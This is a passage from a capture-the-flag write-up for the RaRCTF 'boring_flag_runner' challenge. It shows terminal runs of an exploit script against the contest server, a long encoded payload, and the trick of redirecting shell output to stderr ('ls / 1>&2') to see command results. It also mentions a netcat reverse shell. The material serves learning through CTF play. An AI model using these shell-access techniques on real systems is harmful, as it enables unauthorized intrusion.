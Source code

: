 Now, the fact that user input is getting redirected to /dev/null persists even
after I popped a shell. My first idea was to set up some sort of reverse shell
with netcat or similar, but I don't have a public-facing IP set up, so that
would just be a massive hassle even if it would probably work. However, I came
to a realization when typed in a non-shell command; I still get to see the
results of stderr!  
```  
knittingirl@piglet:~/CTF/RaRCTF/boring_flag_runner$ python3
boring_flag_runner_payload_final.py  
[+] Opening connection to 193.57.159.27 on port 28643: Done  
b'enter your program:'  
b'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@EFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF@FF@GGGGGGGGGGGGBBBBBBBBBBE@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBBGGGGGGGGGGGGGGGG@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB'  
[*] Switching to interactive mode  
$ ls  
$ hello  
sh: 2: hello: not found  
```  
So, if we just just pipe stdout to stderr, we should be able to view the
results of any typical shell command. The session timed out fairly quickly, so
it took a couple of goes, but the end result looks like this:  
```  
knittingirl@piglet:~/CTF/RaRCTF/boring_flag_runner$ python3
boring_flag_runner_payload_final.py  
[+] Opening connection to 193.57.159.27 on port 28643: Done  
b'enter your program:'  
b'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@EFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF@FF@GGGGGGGGGGGGBBBBBBBBBBE@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBBGGGGGGGGGGGGGGGG@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB'  
[*] Switching to interactive mode  
$ ls / 1>&2  
bin  
boot  
challenge  
dev  
etc  
home  
lib  
lib32  
lib64  
libx32  
media  
mnt  
opt  
proc  
root  
run  
sbin  
srv  
sys  
tmp  
```